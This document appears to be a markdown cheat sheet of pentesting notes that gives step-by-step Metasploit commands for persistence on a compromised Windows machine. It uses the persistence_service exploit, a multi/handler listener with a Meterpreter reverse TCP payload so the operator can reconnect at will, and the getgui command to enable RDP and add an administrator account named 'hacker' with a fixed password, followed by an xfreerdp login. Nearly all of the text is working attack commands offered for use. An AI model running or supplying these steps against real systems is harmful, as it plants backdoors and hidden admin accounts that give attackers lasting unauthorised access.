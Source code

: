 
# You require elevated privileges in order to establish persistence on a Windows system
- __`search persistence_service`__
  - __`use exploit/windows/local/persistence_service`__
  - __remember the `LPORT` because we use same port to login__
  - __when you got successfully got persistence service then you can access the target anytime__
  - __So when you load the msfconsole do this things__
  - __`use multi/handler`__
  - __`set payload windows/meterpreter/reverse_tcp`__
  - > __You should use the same payload that you used before__
  - __set the `LHOST` and `LPORT` that you used before__
 
# Windows Persistence via RDP
 
- __Down below is a meterpreter command used to enable the RDP service if it is disable and create a new user__
- __This `hacker` user is added in `Remote Desktop Users` and `Administrators` group__
  - __`run getgui -e -u hacker -p hacker@123321`__
  - > __Note: You require elevated privileges in order to establish persistence on a Windows system.__
  - __`xfreerdp /u:hacker /p:hacker@123321 /v:<target_ip>`__
